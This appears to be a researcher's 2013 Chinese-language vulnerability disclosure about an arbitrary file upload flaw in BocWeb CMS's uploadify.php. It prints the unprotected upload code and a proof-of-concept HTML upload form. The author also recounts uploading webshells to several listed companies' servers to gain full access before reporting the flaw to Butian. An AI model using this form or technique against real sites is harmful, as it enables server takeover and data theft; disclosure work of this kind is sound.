 # 某CMS任意文件上传影响大量上市企业

Feei <feei#feei.cn> 11/2013

## 1. 漏洞入口
经常看到很多大企业官网底部标注着技术支持：杭州博采网络（[BocWeb](http://www.bocweb.cn)），比如吉利、万科、广厦、万向、大华。
后来*意外*获得一份BocWeb的CMS系统源码，简单审计了下发现很多问题。

其中以`/j/uploadify.php`这个最为严重，[Uploadify](http://www.uploadify.com)是一款用来处理上传文件的开源组件。

官网的`demo`中有一个`uploadify.php`用来演示后端处理上传文件的代码。
```php
<?php
/*
Uploadify
Copyright (c) 2012 Reactive Apps, Ronnie Garcia
Released under the MIT License <http://www.opensource.org/licenses/mit-license.php> 
*/

// Define a destination
$targetFolder = '/uploads'; // Relative to the root

if (!empty($_FILES)) {
    $tempFile = $_FILES['Filedata']['tmp_name'];
    $targetPath = $_SERVER['DOCUMENT_ROOT'] . $targetFolder;
    $targetFile = rtrim($targetPath,'/') . '/' . $_FILES['Filedata']['name'];
    
    $fileParts = pathinfo($_FILES['Filedata']['name']);
    
    move_uploaded_file($tempFile,$targetFile);
    echo $targetFile;
}
?>
```

代码用来做演示是没问题，但集成到自己的系统中时如果没有做权限控制就直接是**任意文件上传**。


## 2. 漏洞证明

`bocweb-upload.html`
```
<!DOCTYPE html>
<html>
<head>
    <title>BocWeb Upload Demo</title>
</head>
<body>
    <form action="http://demo.feei.cn/bocweb/j/uploadify.php" method="post" enctype="multipart/form-data">
        <input type="text" name="folder" value="/">
        <input type="file" name="fileData" />
        <input type="submit" name="Upload">
    </form>
</body>
</html>
```

试了几个厂商：万科、绿城、广厦，直接上传小马拿SHELL，继而拿到服务器全部权限和数据。

## 3. 漏洞影响

**受影响厂商：300多家上市公司**

![](images/v_bocweb_02.jpg)

已提交补天平台，已经修复完成。

![](images/v_bocweb_01.png)

## 4. 意外发现

- 后来在[收集扫描规则](/payload)时发现360居然拿着我在补天提的漏洞给360网站卫士进行扫描。
- 2013年第一次提到补天上的，后来2015年在乌云上发现居然有人又提了一遍。黑人问号.jpg
